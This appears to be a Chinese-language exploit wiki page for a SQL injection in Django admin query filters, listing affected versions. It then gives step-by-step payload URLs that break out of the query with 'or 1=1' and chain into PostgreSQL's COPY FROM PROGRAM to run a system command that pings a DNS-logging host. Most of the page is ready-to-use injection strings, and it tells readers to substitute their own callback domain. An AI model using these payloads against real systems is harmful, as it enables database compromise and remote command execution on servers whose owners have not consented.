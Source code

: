 <languages   />

<translate>

影響版本
--------

</translate>

    Django 2.2.x < 2.2.4

    Django 2.1.x < 2.1.11

    Django 1.11.x < 1.11.23

<translate>

漏洞利用
--------

</translate>

<translate> 首先需登錄管理員後臺，訪問模型Collection的管理頁面： </translate>

    http://127.0.0.1/admin/vuln/collection/

    http://127.0.0.1/admin/vuln/collection/?detail__a%27

    http://127.0.0.1/admin/vuln/collection/?detail__a%27)%3D%271%27%20or%201%3d1%20--

<translate> Django一般與PostgreSQL一起配合使用，可以嘗試利用PostgreSQL 高權限命令執行漏洞[(CVE-2019-9193)](https://www.pwnwiki.org/index.php?title=CVE-2019-9193_PostgreSQL_%E9%AB%98%E6%AC%8A%E9%99%90%E5%91%BD%E4%BB%A4%E5%9F%B7%E8%A1%8C%E6%BC%8F%E6%B4%9E) </translate>

<translate> 訪問以下URL： </translate>

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcreate%20table%20cmd_execs(cmd_output%20text)--%20

<translate> 回顯`no results to fetch` 語句成功執行。 </translate>

<translate> 訪問： </translate>

    http://127.0.0.1/admin/vuln/collection/?detail__title%27)%3d%271%27%20or%201%3d1%20%3bcopy%20cmd_execs%20FROM%20PROGRAM%20%27ping%20test.dnslog.cn%20%27--%20

<translate> 命令成功執行。 </translate>

### ⚠️️

<translate> `test.dnslog.cn`請修改爲自己的Dnslog </translate>